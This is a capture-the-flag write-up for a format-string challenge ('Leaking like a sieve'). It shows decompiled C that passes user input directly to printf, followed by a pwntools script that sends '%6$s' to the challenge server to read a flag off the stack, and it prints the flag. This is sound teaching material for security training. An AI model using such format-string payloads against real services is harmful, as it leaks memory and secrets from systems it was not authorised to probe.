 # Leaking like a sieve
>This program I developed will greet you, but my friend said it is leaking data like a sieve, what did I forget to add?

> Author: xXl33t_h@x0rXx

> nc pwn-2021.duc.tf 31918

[hellothere](https://drive.google.com/file/d/1gBUUWwU-Z9VRV49flJbHABBEyM-MRM_q/view?usp=sharing)

```
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  FILE *stream; // [rsp+8h] [rbp-58h]
  char format; // [rsp+10h] [rbp-50h]
  char s; // [rsp+30h] [rbp-30h]
  unsigned __int64 v6; // [rsp+58h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  buffer_init(*(_QWORD *)&argc, argv, envp);
  stream = fopen("./flag.txt", "r");
  if ( !stream )
  {
    puts("The flag file isn't loading. Please contact an organiser if you are running this on the shell server.");
    exit(0);
  }
  fgets(&s, 32, stream);
  while ( 1 )
  {
    puts("What is your name?");
    fgets(&format, 32, stdin);
    printf("\nHello there, ", 32LL);
    printf(&format);
    putchar(10);
  }
}
```

# Solution

The program requires input data, save it at `rbp-0x50` and prints it again with printf 

We can see, that our input is fed directly to the printf() function. What we also should notice, is that the flag is somewhere on the stack also, cause it’s being read into s variable.

The flag is the sixth address stored in the stack so we can print that out by inputting `%6$s`. This format string will interpret the sixth address on the stack as a string and print it out.

```
from pwn import *

if args.REMOTE:
    con = remote('pwn-2021.duc.tf', 31918)
else:
    con = process('./hellothere')

payload  = b''
payload += b'%6$s'

con.sendline(payload)
flag = con.recvuntil(b'}')

print(flag)
```

> Flag: `DUCTF{f0rm4t_5p3c1f13r_m3dsg!}`
